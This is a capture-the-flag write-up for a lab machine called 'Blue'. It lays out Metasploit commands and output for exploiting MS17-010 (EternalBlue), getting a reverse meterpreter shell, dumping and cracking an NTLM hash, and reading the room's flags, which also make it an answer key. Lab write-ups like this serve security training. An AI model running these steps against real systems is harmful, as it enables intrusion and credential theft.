 # Blue

## Recon

##### #1 Scan the machine. (If you are unsure how to tackle this, I recommend checking out the room RP: Nmap)?
```
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
```

##### #2 How many ports are open with a port number under 1000?
There is 3 open ports.

##### #3 What is this machine vulnerable to?
Port 445 is open, check smb
```
nmap --script=smb* <ip>
Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

## Run the exploit

##### #1 	Start Metasploit
```
msfconsole
```

##### #2 	Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
```
search ms17-010
exploit/windows/smb/ms17_010_eternalblue
```
##### #3 	Show options and set the one required value. What is the name of this value? (All caps for submission)
```
set RHOSTS 10.10.46.185
```
##### #4 	Run the exploit!
```
use exploit/windows/smb/ms17_010_eternalblue
run
```
##### #5 	Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
Ok

## Priv esc

##### #1 	If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
```
post/multi/manage/shell_to_meterpreter
```

##### #2 	Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.46.185     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.8.100.167     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

##### #6 	Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

sessions -i 1

##### #7 	List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
 ```
 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 424   568   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 428   664   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 476   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 484   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 568   556   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 616   556   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 624   608   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 664   608   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 712   616   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 720   616   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 728   616   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 836   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 904   712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 952   712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1080  1288  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
 1084  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1156  712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 1288  712   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1336  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1404  712   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1480  712   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1620  712   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1948  712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 2084  836   WmiPrvSE.exe                                                       
 2252  712   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           
 2736  712   vds.exe               x64   0        NT AUTHORITY\SYSTEM           
 2864  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 2908  712   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  
 2944  712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           
 3024  712   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM          
```

## Cracking

##### #1 	Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
Jon

##### #2 	Copy this password hash to a file and research how to crack it. What is the cracked password?
```
https://crackstation.net/
ffb43f0de35be4d9917ac0cc8ad57f8d	NTLM	alqfna22
```

alqfna22

## Get the flags

##### #1 	Flag1? (Only submit the flag contents {CONTENTS})
Just search for files that starts with flag
```
search -f flag*.*
c:\flag1.txt (24 bytes)
flag{access_the_machine}
```

##### #2 	Flag2? Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 
```
c:\Windows\System32\config\flag2.txt (34 bytes)
flag{sam_database_elevated_access}
```

##### #3 	flag3?
```
c:\Users\Jon\Documents\flag3.txt (37 bytes)
flag{admin_documents_can_be_valuable}
```
